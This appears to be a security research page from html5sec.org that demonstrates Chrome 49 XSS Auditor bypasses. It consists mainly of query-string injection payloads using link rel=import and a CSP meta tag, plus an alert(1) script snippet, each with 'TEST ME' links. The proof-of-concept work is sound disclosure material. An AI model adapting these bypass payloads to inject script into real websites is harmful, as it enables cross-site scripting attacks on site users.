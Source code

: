 FROM: https://html5sec.org/xssauditor/bypasses-052016?xss=%3Clink%20rel=import%20href=https:html5sec.org/

## XSS Auditor Bypasses 05.2016
The bypasses are different for HTTP and HTTPS pages. Here, you can try both variants.

### HTTP Pages

(visit this page via HTTP) 
> ?xss=<link rel=import href=https:html5sec.org/ 

[TEST ME](https://html5sec.org/xssauditor/bypasses-052016?xss=%3Clink%20rel=import%20href=https:html5sec.org/)

### HTTPS Pages

(visit this page via HTTPS) 
> ?xss=<meta http-equiv=Content-Security-Policy content=upgrade-insecure-requests><link rel=import href=http:html5sec.org/ 

[TEST ME](https://html5sec.org/xssauditor/bypasses-052016?xss=%3Cmeta%20http-equiv=Content-Security-Policy%20content=upgrade-insecure-requests%3E%3Clink%20rel=import%20href=http:html5sec.org/)

### JS
```js
<!--
alert(1)
-->Error 404<script>alert(1)</script>
```

### Chrome Version
Google Chrome	49.0.2623.75 (Official Build) m (32-bit)
